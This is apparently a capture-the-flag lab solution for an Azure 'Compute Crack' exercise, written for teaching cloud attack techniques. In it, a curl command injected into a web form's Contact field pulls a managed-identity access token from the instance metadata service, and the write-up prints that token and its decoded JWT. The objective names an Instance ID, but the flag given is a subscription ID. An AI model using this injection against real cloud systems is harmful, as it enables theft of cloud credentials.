




# 🛠️ Lab <NN> — COMPUTE CRACK (Solution)

>This lab demonstrates exploitation of an SSRF vulnerability in a web application hosted on Azure. By abusing the Instance Metadata Service (IMDS), we extract temporary credentials and identify the Azure VM instance hosting the application..

---

## 🔎 Environment & Context
- **Domain:** Cloud Security  
- **Provider:** Azure
- **Target / Service:** Azure VM Instance hosting a web application  
- **Attacker Privilege:** Unauthenticated web user with SSRF access to IMDS (169.254.169.254)

---

## 🎯 Objective
Identify and extract:  
**“The Instance ID of the Azure VM running the web application.”**

---

## 🧭 Pre-requisites
- Tools:    
  - `curl` (Linux) or browser-based exploitation  
  - `jwt.io` for decoding the web tokens 
- Folder: `./screenshots/` for storing evidence  
- Optional placeholder for Git tracking:  

> **Tip:** create an empty screenshots folder with `.gitkeep` so Git tracks it:
> `screenshots/.gitkeep`

---
# ⚙️ Step-by-Step Solution

## **1️⃣ Initial Access**
You are provided with a web URL running on an azure vm instance:
http://MACHINE-IP/index.html

Open it in a browser → scroll down **add emplyees detail** → reach the vulnerable form.

---

## **2️⃣ SSRF Injection – Accessing Instance Metadata and (Flag Extraction)**
In the **Contact** field, inject: "curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

then enter all other details and then click on submit 

Submit the form.

then u will be getting an output :

Thank you for your submission 

{
"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6InJ0c0ZULWItN0x1WTdEVlllU05LY0lKN1ZuYyIsImtpZCI6InJ0c0ZULWItN0x1WTdEVlllU05LY0lKN1ZuYyJ9.....sDOsb3DtFKUVlOP0xx7tYnFEEkNZWtvNc1it3dv0ZlOqm4TokOfyHfEXcPx7RLayem4CxnqI9q7TYrzqUn08hLnSlGfVhhVW053VMYrkrbxef5S4zjZ3P9heyOOCLgXMI83z2w0jT82zJpm2JdYx-dZeBGN1IkZgO9UJuHCiJIfVrE7X5jy7ir9l7IPuuR8lTUQpDbYDRctLljsx_3D1xkdVt3vDA_8_W_oNI_wVNsWPtJBXSU4ijVmWKfM_yOlK9__s2UlhTwYyaRx94DPd-yh9TnvKC2ytm3sHygYs57AtGohyjb3o_OEK8EK7AR9UjfrAxI-Ay5Au7vrzOiEvzg","client_id":"ebdab26b-8a80-402c-821f-d5d203342fc2","expires_in":"86132","expires_on":"1765008628","ext_expires_in":"86399","not_before":"1764921928","resource":"https://management.azure.com/","token_type":"Bearer"
}
{
"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6InJ0c0ZULWItN0x1WTdEVlllU05LY0lKN1ZuYyIsImtpZCI6InJ0c0ZULWItN0x1WTdEVlllU05LY0lKN1ZuYyJ9.....sDOsb3DtFKUVlOP0xx7tYnFEEkNZWtvNc1it3dv0ZlOqm4TokOfyHfEXcPx7RLayem4CxnqI9q7TYrzqUn08hLnSlGfVhhVW053VMYrkrbxef5S4zjZ3P9heyOOCLgXMI83z2w0jT82zJpm2JdYx-dZeBGN1IkZgO9UJuHCiJIfVrE7X5jy7ir9l7IPuuR8lTUQpDbYDRctLljsx_3D1xkdVt3vDA_8_W_oNI_wVNsWPtJBXSU4ijVmWKfM_yOlK9__s2UlhTwYyaRx94DPd-yh9TnvKC2ytm3sHygYs57AtGohyjb3o_OEK8EK7AR9UjfrAxI-Ay5Au7vrzOiEvzg","client_id":"ebdab26b-8a80-402c-821f-d5d203342fc2","expires_in":"86132","expires_on":"1765008628","ext_expires_in":"86399","not_before":"1764921928","resource":"https://management.azure.com/","token_type":"Bearer"
}!

This confirms successful SSRF exploitation of **Azure IMDS**, proving access to VM metadata and tokens.

---

## **3️⃣ Extract Managed Identity Access Tokens**
Next, Open jwt.io webite in your browser

Submit the f access token.

then you can see a **decoded payload**

{
  "aud": "https://management.azure.com/",
  "iss": "https://sts.windows.net/f2a33211-e46a-4c92-b84d-aff06c2cd13f/",
  "iat": 1764921928,
  "nbf": 1764921928,
  "exp": 1765008628,
  "aio": "AWQAm/8aAAAAEczHZwd856K/eVn1wxHuXKF6sInDrJm8SrelgIrxF93EX8nJYvh41BpLE1558wdFwbJMdTzeYQKj9wLgqoxsAk+jois74yoLX30t1YywF6pQOX6GzPbg6EbTUfNp7cgi",
  "appid": "ebdab26b-8a80-402c-821f-d5d203342fc2",
  "appidacr": "2",
  "idp": "https://sts.windows.net/f2a33211-e46a-4c92-b84d-aff06c2cd13f/",
  "idtyp": "app",
  "oid": "b0f31bfd-1a79-4a2c-ba43-fd65c3666fdb",
  "rh": "1.AL4AETKj8mrkkky4Ta_wbCzRP0ZIf3kAutdPukPawfj2MBMjAQC-AA.",
  "sub": "b0f31bfd-1a79-4a2c-ba43-fd65c3666fdb",
  "tid": "f2a33211-e46a-4c92-b84d-aff06c2cd13f",
  "uti": "sdmF4KgzXUu6N0IKMbQBAA",
  "ver": "1.0",
  "xms_act_fct": "3 9",
  "xms_ftd": "mvN65wVjJwLeEvjeR4NZA-6OmW3jX5c5B8Uz5ZVwY-4BdXNlYXN0LWRzbXM",
  "xms_idrel": "7 4",
  "xms_mirid": "/subscriptions/662a4fee-a3ba-49b3-9caf-8c20ed04503f/resourcegroups/Default-RG/providers/Microsoft.Compute/virtualMachines/it-vm",
  "xms_rd": "0.42LjYBJi2scoJMLBKSTwfsKTtvbDfY4LZL3VRedYlAFFOYQE3DzqKxl2Xfff5Xzr4I9vBsIA",
  "xms_sub_fct": "9 3",
  "xms_tcdt": 1720071254
}

---

You can see the subscriptions details in the decoded payload 
---

"xms_mirid": "/subscriptions/662a4fee-a3ba-49b3-9caf-8c20ed04503f/resourcegroups/Default-RG/providers/Microsoft.Compute/virtualMachines/it-vm",

---

---

the ID which is beside of the subscription is the **subscription ID**

the flag is 662a4fee-a3ba-49b3-9caf-8c20ed04503f
